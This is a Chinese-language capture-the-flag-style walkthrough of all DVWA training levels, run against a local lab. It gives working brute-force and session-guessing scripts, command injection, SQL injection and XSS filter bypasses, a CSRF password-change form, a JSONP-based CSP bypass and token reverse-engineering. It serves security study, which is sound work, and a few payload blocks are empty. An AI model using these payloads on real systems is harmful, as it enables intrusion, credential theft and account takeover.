







# OWASP Top 10 靶机实战笔记

这是一份 DVWA 全关卡的通关记录, 从最基础的暴力破解一路做到 CSP 绕过和 JavaScript token 逆向. 每一节都按 Low / Medium / High 三档写清楚"防护做了什么"和"为什么能绕过", 配套的可执行脚本放在 [solutions/](../solutions) 目录, 文件名前面的编号和本文的章节顺序一致.

| 项目 | 说明 |
| --- | --- |
| 靶机 | DVWA v1.10, 默认地址 `http://127.0.0.1:8080` |
| 难度 | Low / Medium / High, 逐档推进 |
| 环境 | Python 3.11+ 与 `requests`, 浏览器控制台 |
| 脚本 | 每个脚本顶部的 `SECURITY` 常量决定打哪一档 |

> [!NOTE]
> 只在你自己搭的靶场里使用. 所有地址和会话都换成了占位符, 具体跑法见 [README](../README.md).

## 目录

- [暴力撞库](#暴力撞库)
- [Command Injection](#command-injection)
- [CSRF 跨站请求](#csrf-跨站请求)
- [File Upload 注入](#file-upload-注入)
- [SQL 注入](#sql-注入)
- [SQL 盲注](#sql-盲注)
- [弱 Sessions ID 预测](#弱-sessions-id-预测)
- [XSS (Reflected) 反射型](#xss-reflected-反射型)
- [XSS (DOM) DOM 型](#xss-dom-dom-型)
- [XSS (Stored) 存储型](#xss-stored-存储型)
- [Content Security Policy (CSP) Bypass](#content-security-policy-csp-bypass)
- [JavaScript 关卡](#javascript-关卡)

## 暴力撞库

> 对应脚本: [1-brute.py](../solutions/1-brute.py)

先查看正确时返回的内容是什么，发现登录时是一个可构造的 GET 请求，就可以动手脚了。

```python
import time

import requests

session = requests.Session()
session.cookies.set("PHPSESSID", "<PHPSESSID>")
session.cookies.set("security", "low")
username = "admin"
passwords = [
    "123456",
    "111",
    "admin",
    "admin123",
    "password",
    "12345678",
]

for password in passwords:
    print(f"Testing：{username} / {password}")
    try:
        response = session.get(
            "http://127.0.0.1:8080/vulnerabilities/brute",
            params={
                "username": username,
                "password": password,
                "Login": "Login",
            },
            timeout=0.2,
        )

        if response.status_code != 200:
            continue
        if "Welcome" in response.text:
            print(f"Success：{username} / {password}")
            break

    except requests.RequestException as e:
        print(f"Error: {e}")
        break
    time.sleep(0.5)

```

Medium 只是服务端在登录失败后 `sleep(2)`，脚本不用改，把超时放宽一点就行。

High 加了一个 `user_token` 的 CSRF 校验，得先 GET 一次登录页，从 HTML 里把 `name='user_token' value='...'` 抠出来，失败会 `sleep(rand(0, 3))`

## Command Injection

> 对应脚本: [2-cmd_injection.py](../solutions/2-cmd_injection.py)



```
localhost; 之后可以跟随任意指令，可以写入一个文件，再 cat 出来看看靶机是不是真的被成功注入
```

Medium 级别过滤了 `&&` 和 `;`

```php
// Set blacklist
$substitutions = array(
	'&&' => '',
	';'  => '',  
);
```

所以直接使用 `localhost | id` 就能输出成功了。

High 级别的黑名单写的是 `| ` 竖线和空格的组合，所以只需要不带空格的写法就能过。

```php
localhost|id
```


## CSRF 跨站请求

> 对应脚本: [3-csrf.py](../solutions/3-csrf.py)

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>CSRF External Test</title>
</head>
<body>
    <h2>DVWA CSRF 模拟跨站请求实验</h2>
    <form
        action="http://127.0.0.1:8080/vulnerabilities/csrf/"
        method="GET"
    >
        <input
            type="hidden"
            name="password_new"
            value="csrf123"
        >

        <input
            type="hidden"
            name="password_conf"
            value="csrf123"
        >
        <input
            type="hidden"
            name="Change"
            value="Change"
        >
        <button type="submit">
            发送测试请求
        </button>
    </form>
</body>
</html>
```

这个一按就能发现问题，居然能跳转成功，并且显示密码已被改变。

|技术|核心原理|推荐程度|
|---|---|---|
|1. Referer 校验缺陷|服务端只依赖来源信息判断请求是否合法|⭐⭐⭐|
|2. CSRF Token 验证缺陷|Token 缺失、未绑定会话或验证不完整|⭐⭐⭐⭐⭐|
|3. SameSite Cookie 边界|利用同站与跨站概念的差异|⭐⭐⭐⭐⭐|
|4. POST 表单 CSRF|利用浏览器表单提交触发敏感操作|⭐⭐⭐⭐|
|5. JSON API 的 CSRF|研究 Content-Type、CORS 与服务端解析差异|⭐⭐⭐⭐|
|6. Login CSRF|诱导用户登录攻击者指定的账户|⭐⭐⭐|
|7. OAuth 流程中的 CSRF|登录回调缺少有效的 `state` 等请求关联验证|⭐⭐⭐⭐⭐|

这些技术的共同点是：攻击者通常不需要知道用户的密码，而是试图利用用户浏览器已有的认证状态。

Medium 级别的加了一层 HTTP Referer 识别，看是否子串中包含本机 IP 地址：

```php
if(stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];
```

解决方案也很简单，只需要在 Referer 中加入一个 Target Url 就能骗过了。它甚至不要求 Referer 与服务器名相等，只要字符串里出现了 127.0.0.1 就过。`target.url` 天然有。

```js
response = target.get(
    "",
    params=params,
    headers={"Referer": target.url},
)
```

High 的话要先从页面中取出 `user_token`，拿一下就完事了。

```js
if SECURITY == "high":
    params["user_token"] = target.token()
```


## File Upload 注入

> 对应脚本: [4-file_upload.py](../solutions/4-file_upload.py)





```php
<?php
echo "Hello from PHP!";
echo "<p>2 + 3 = " . (2 + 3) . "</p>";
?>
```

### 检测是否具有写权限

```php
<?php
$path = sys_get_temp_dir() . "/dvwa_test.txt";
$result = file_put_contents($path, "Hello from DVWA!");
if ($result !== false) {
    echo "Write successful!";
    echo "<pre>" . htmlspecialchars(file_get_contents($path)) . "</pre>";
} else {
    echo "Write failed!";
}
?>
```

Medium 只检查 `$_FILES['type']` 和文件大小，`type` 是请求头里带的

抓包把 `Content-Type` 改成 `image/jpeg`，文件名还是 `shell.php` 就能过。

High 会从文件名里取扩展名做白名单，再用 `getimagesize()` 确认是真的图片：

```php
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
    ( $uploaded_size < 100000 ) &&
    getimagesize( $uploaded_tmp ) )
```

三个条件都满足才落盘，而且落盘的文件名只能是 `.jpg` 或 `.png`，PHP 不会解析，所以 High 基本没有直接拿 webshell 的路子。

## SQL 注入

> 对应脚本: [5-sql_injection.py](../solutions/5-sql_injection.py)

Low 等级的很容易攻破：`1' OR '1'='1` 就行了。
当然还可以直接看到账号密码：

```sql
-1' UNION SELECT user,password FROM users#
```

Medium 的表单仍然是同一个，直接填：

```sql
1 UNION SELECT user, password FROM users
```

Medium 用了 `mysqli_real_escape_string` 转义引号，而查询语句里的 `user_id = $id` 本身没有加引号；所以只要不带引号，整段 `UNION` 会被原样拼进 SQL.

High 的主页面没有输入框了，`id` 先通过 `change your ID` 弹窗填进 `$_SESSION['id']`，提交后弹窗会刷新主页面，之后每次请求都用这个值：

```sql
-1' UNION SELECT user,password FROM users#
```

## SQL 盲注

> 对应脚本: [6-sql_blind.py](../solutions/6-sql_blind.py)

服务器不直接显示查询结果，但我们可以通过页面响应的变化，间接推断数据库里的信息。

测试盲注很容易，先测试正常的查询，以及异常的查询，查看服务器的响应即可。

Low: 通过 GET 输入框填写

|输入|服务器响应|
|---|---|
|`1`|User ID exists|
|`1' AND '1'='1'#`|User ID exists|
|`1' AND '1'='2'#`|User ID is MISSING|
接下来就能推断数据库，例如使用：

```sql
1' AND LENGTH(DATABASE())=4#
```

来进行长度猜测，接下来还能逐个猜测字符。

Medium 难度是使用 POST 输入框，不需要引号，因为 `user_id = $id` 是数字型，直接拼就行：

```sql
1 AND 1=1
1 AND 1=2
```

High 的 `id` 是从 cookie 里拿的，要在弹窗里填 `1' AND '1'='1`，提交后页面会把它写进 `id` cookie，再回主页面判断；记录不存在时还会随机 `sleep(2 ~ 4)`，时间盲注的脚本得把超时放宽。

## 弱 Sessions ID 预测

> 对应脚本: [7-weak_session.py](../solutions/7-weak_session.py)

每一次点击按钮时都会 Set A New Cookie，那么有可能这个 Sessions ID 是能被找到规律的

```python
import requests

session = requests.Session()
session.cookies.set("PHPSESSID", "<PHPSESSID>")
session.cookies.set("security", "low")

for i in range(10):
    response = session.get("http://127.0.0.1:8080/vulnerabilities/weak_id/", params={"generate": "Generate"})
    response.raise_for_status()
    value = session.cookies.get("dvwaSession")
    print(f"No. {i + 1}: {value}")
```

Medium 直接把 `time()` 当 Session ID，按当前时间戳前后猜几十秒就能撞上。

High 换成了 `md5(自增)`，从 1 开始把 `md5(1)`、`md5(2)` 一直往下算，和页面返回的值对一下，规律马上就出来了。

## XSS (Reflected) 反射型

> 对应脚本: [9-xss_reflected.py](../solutions/9-xss_reflected.py)

提交什么内容，服务器就原样返回

```xss
<script>alert(1)</script>
```

页面弹窗，就说明输入框允许脚本执行。

这一版需要通过 URL 参数或者表单参数传递，服务器不会持久保存这些代码。

到了 Medium 时，PHP 代码有了一层防护：

```php
$name = str_replace('<script>', '', $_GET['name']);
```

但是这个 `str_replace` 函数是区分大小写的，而 HTML 标签不区分大小写，所以可以轻松绕过。

```javascript
<SCRIPT>alert(1)</SCRIPT>
```

High 时是通过正则表达式过滤的：

```php
$name = preg_replace(
    '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i',
    '',
    $_GET['name']
);
```

这条正则表达式试图匹配 `<script` 甚至中间有其他字符都可以。但是 JavaScript 不一定要通过 `<script>` 标签来执行，HTML 元素也可以：

```html

```

而 Impossible 级别是采取了 `htmlspecialchars()` 让输入作为文本来展示，所以根本打不进去。

## XSS (DOM) DOM 型

DOM 型的 payload 不经过服务端, 由前端 JavaScript 直接写进页面, 所以响应正文里看不到它, 只能拿 URL 去浏览器里验证.

> 对应脚本: [8-xss_dom.py](../solutions/8-xss_dom.py)

Low 会把 `default` 参数原样交给页面的 `document.write()`:

```html
<script>alert(document.domain)</script>
```

Medium 服务端只拦 `<script`, 换成图片的事件处理器就能过:

```html

```

High 服务端只放行 English / French / Spanish / German 四种取值, 注入不进去.

## XSS (Stored) 存储型

> 对应脚本: [10-xss_stored.py](../solutions/10-xss_stored.py)

攻击者提交的代码会被服务器保存起来，当其他用户打开相关的页面时，也会执行这些代码。

存储型 XSS 通常不需要受害者打开攻击者专门构造的链接，只要访问包含恶意内容的页面就可能触发。最经典的就是留言板。就像这边只要注入成功了，任何人点进这个界面就会开始上面一直显示内容。



Low 直接在留言里写 `<script>alert(1)</script>`，刷新页面就会执行。

Medium 把 `message` 用 `htmlspecialchars` 转义了，但 `name` 只删了 `<script>`：

```php
$name = str_replace('<script>', '', $name);
```

和反射型一个道理，`<SCRIPT>alert(1)</SCRIPT>` 就能过。不过 `name` 输入框有 `maxlength="10"`，长一点的 payload 会截断，得先在控制台把 `maxlength` 删掉，或者直接改包发 POST。

High 的 `name` 换成正则：

```php
$name = preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name);
```

`` 照样绕过去，`message` 一直是转义的，所以只能从 `name` 下手。

## Content Security Policy (CSP) Bypass

> 对应脚本: [11-csp.py](../solutions/11-csp.py)

内容安全策略绕过。网站设置后，浏览器会阻止不符合规则的脚本。

|等级|防护方式|绕过思路|
|---|---|---|
|Low|允许从多个外部网站加载脚本|利用被信任的外部脚本源|
|Medium|使用 CSP nonce|分析 nonce 是否固定、可重用|
|High|使用 JSONP 加载 JavaScript|利用可控的 JSONP callback|
|Impossible|收紧脚本来源，固定 JSONP callback|验证危险输入无法改变执行内容|
正常情况下，服务器返回：

```http
Content-Security-Policy: script-src 'self'
```

像下面的这个会被阻止：

```html
<script src="https://example.org/test.js"></script>
```

会被 CSP 阻止，因为它来自其他域名。

假设网站错误地配置成：

```http
Content-Security-Policy: script-src 'self' https://cdn.jsdelivr.net
```

那么浏览器就会信任 `cdn.jsdelivr.net` 提供的脚本。

就像我们公司的靶机中是可以过这个的，这个是能 HTTP 200 的：

```text
https://code.jquery.com/jquery-3.7.1.min.js
```

Medium 难度下，源码甚至直接给答案了：

```php
$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";
```

一般情况下，`nonce` 是要随机生成的，但是 DVWA 直接写死在源码里了。

所以解决方案显然就是：

```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```

High 难度的 CSP 是：

```http
Content-Security-Policy: script-src 'self';
```

此时普通的内联脚本是无法执行的。观察源码发现：

```php
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}
```

在点击按钮后，浏览器会动态创建一个 `<script>` 元素，加载：

```text
source/jsonp.php?callback=solveSum
```

这个是和 DVWA 在同一个域名下的，所以符合 `self` 策略。

> [!WARNING]
> 现在服务器直接将 `callback` 参数拼接进 JavaScript 响应，但不校验是不是合法的函数名，攻击者就能改变返回代码的执行逻辑。

`callback=alert(1)//` -> `alert(1)//({"answer": 15})`

最后的 Answer 就会被注释掉。所以我们可以进控制台执行以下代码：

```js
const s = document.createElement("script");
s.src = "source/jsonp.php?callback=alert(1)%2F%2F";
document.body.appendChild(s);
```

浏览器请求的就是：`GET /vulnerabilities/csp/source/jsonp.php?callback=alert(1)%2F%2F`

这个脚本来自 `127.0.0.1:8080` 是属于 DVWA 自身的来源的。

## JavaScript 关卡

> 对应脚本: [12-javascript.py](../solutions/12-javascript.py)

这一关要提交的是 `success`，但表单里除了 `phrase` 还有一个隐藏的 `token`，两者必须对得上。三个难度的区别就在这个 `token` 的算法上。

Low 先直接填 `success` 提交，返回 Invalid Token。`phrase` 没填错，那问题只可能在隐藏的 `token` 上。查看页面源代码，JS 是内联在页面里的，连 md5 的实现都一起塞了进来：

```js
function rot13(inp) {
    return inp.replace(/[a-zA-Z]/g, function (c) {
        return String.fromCharCode((c <= "Z" ? 90 : 122) >= (c = c.charCodeAt(0) + 13) ? c : c - 26);
    });
}

function generate_token() {
    var phrase = document.getElementById("phrase").value;
    document.getElementById("token").value = md5(rot13(phrase));
}

generate_token();
```

所以 `token` 的算法就是 `md5(rot13(phrase))`。

问题在于 `generate_token()` 只在页面加载时调用了一次，那时候 `phrase` 还是 `ChangeMe`，所以 token 一直是 `md5(rot13("ChangeMe"))`。后来改了 `phrase` 也不会重新计算，提交上去自然对不上。

在控制台里手动算一次就行：

```js
document.getElementById("token").value = md5(rot13("success"));
```

不想用页面里的函数，Python 算好贴进去也可以：

```python
import codecs
import hashlib

phrase = "success"
rot13 = codecs.encode(phrase, "rot13")
print(hashlib.md5(rot13.encode()).hexdigest())
```

`success` 经过 rot13 是 `fhpprff`，md5 出来是 `38581812b435834ebf84ebcc2c6424d6`。

Medium 的脚本被拆到了外部文件，页面源码里只剩一个外链：

```html
<script src=".../vulnerabilities/javascript/source/medium.js"></script>
```

跟进去就能看到：

```js
function do_something(e) {
    for (var t = "", n = e.length - 1; n >= 0; n--) t += e[n];
    return t;
}
setTimeout(function () {
    do_elsesomething("XX");
}, 300);
function do_elsesomething(e) {
    document.getElementById("token").value = do_something(
        e + document.getElementById("phrase").value + "XX"
    );
}
```

函数名换成了 `do_something` 和 `do_elsesomething`，逻辑却很简单：把 `"XX" + phrase + "XX"` 整串翻转。两头的 `XX` 是回文，翻完还是 `XX` 在两头，所以等价于：

```text
token = XX + reverse(phrase) + XX
```

`success` 反过来是 `sseccus`，token 就是 `XXsseccusXX`。

这里的 `setTimeout(..., 300)` 也说明 token 只在页面加载后算一次，算的还是当时 `ChangeMe` 的值。所以和 Low 一样，改了 `phrase` 不会自动重算。

```js
document.getElementById("token").value = "XX" + "success".split("").reverse().join("") + "XX";
```

也可以直接调 `do_elsesomething("XX")`，前提是先把 `phrase` 改成 `success`。

High 就不一样了，当输入 `Success` 时是无法通过的。观察响应字段：



很显然是需要下载了 `high.js` 之后才能继续执行。

HTML 里只有这样的表单：

```js
<input type="hidden" name="token" value="" id="token" />
    <label for="phrase">Phrase</label>
    <input type="text" name="phrase" value="ChangeMe" id="phrase" />
    <input type="submit" id="send" name="send" value="Submit" />
```

所以我们需要在 `high.js` 中逆向生成 Token 的代码，分析计算逻辑。但是即使放到了 `de4js` 这样的网站上还是没办法还原其逻辑。

先找到 `eval` 改为 `console.log(` 然后可以使用 `node js.js > unpack.js`



能看到 Token Part 1 是在拿到 Phrase 时，做了一些事。回去看 `do_something` 函数。

```js
function do_something(e) {
    for (var t = "", n = e.length - 1; n >= 0; n--) t += e[n];
    return t;
}
```

这显然是字符串翻转。再看看 Token 的生成逻辑：

```js
document.getElementById("phrase").value = "";
setTimeout(function () {
    token_part_2("XX");
}, 300);
document.getElementById("send").addEventListener("click", token_part_3);
```

拿到元素后等 300ms 执行 Part 2，放一个 XX 在前面。然后点击 Send 时调用 Token Part 3.
这就是为什么我输入 `success` 后点击了 Submit 还是 Invalid Token，因为获取到 Phrase 元素时，就被清空了，然后马上执行了 Token Part 2，相当于我获得是一个空字符串。

这里就显而易见是：

```js
function token_part_3(t, y = "ZZ") {
    document.getElementById("token").value = sha256(
        document.getElementById("token").value + y
    );
}
function token_part_2(e = "YY") {
    document.getElementById("token").value = sha256(
        e + document.getElementById("token").value
    );
}
```

注意这里的 `YY` 只是默认值，所以就会变成：`sha256(sha256(XXsseccus) + "ZZ")`

所以我们需要在输入 Success 后重新执行前两个阶段。

```js
document.getElementById("phrase").value = "success"
token_part_1() # 这里可以不传入 "ABCD" 和 "44"，这都是开发者混淆视听的
token_part_2("XX")
```



